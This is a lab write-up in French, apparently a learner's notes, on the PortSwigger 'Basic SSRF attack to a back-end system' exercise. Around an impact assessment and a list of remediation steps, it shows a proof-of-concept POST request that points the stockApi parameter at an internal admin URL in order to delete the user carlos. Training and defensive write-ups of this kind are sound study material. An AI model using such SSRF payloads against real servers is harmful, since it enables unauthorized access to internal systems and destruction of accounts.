


# 🧪 Lab PortSwigger – Basic SSRF attack to a back-end system

## 🎯 Objectif

Exploiter une faille SSRF pour scanner le réseau interne et accéder à l’interface admin afin de supprimer un utilisateur.

## 🧩 Contexte

- Fonctionnalité observée : requête POST pour obtenir des infos produits.
- Problème : le paramètre `stockApi` est modifiable et utilisé comme proxy.
- Vulnérabilité : SSRF (Server-Side Request Forgery).

## 🚀 Proof of Concept (PoC)

Requête modifiée :

```http
POST /product/stock HTTP/2
Host: vulnerable-app.net
Cookie: session=xxxx

stockApi=http://192.168.0.54/admin/delete?username=carlos
```

Réponse :

```
User carlos deleted successfully
```

## ⚠️ Impact

Un attaquant peut exploiter le serveur comme proxy pour scanner le réseau interne et accéder à des ressources protégées. Cela entraîne la compromission du compte administrateur et la suppression d’utilisateurs.  
Gravité estimée : **Critique (CVSS ~9.0)**.

## 📸 Preuves

- Capture d’écran du scan interne



- Capture d'écran montrant la suppression de l’utilisateur Carlos



## 🔒 Remédiation

- Bloquer les requêtes vers localhost et adresses internes (RFC1918).
- Mettre en place une liste blanche stricte des domaines autorisés.
- Valider et purifier les entrées utilisateur (URL parsing sécurisé).
- Utiliser des librairies sécurisées pour les appels HTTP.
- Segmenter le réseau pour isoler les services internes sensibles.
- Surveiller les logs pour détecter des tentatives SSRF.
- Isoler l’interface admin derrière une authentification forte et un réseau séparé.

## 📌 Résumé

- Vulnérabilité : SSRF (Server-Side Request Forgery)
- Impact : Scan interne + compromission admin
- Gravité : Critique
- Outils utilisés : Burp Suite (Repeater)
- Niveau de difficulté : ⭐⭐✩✩✩
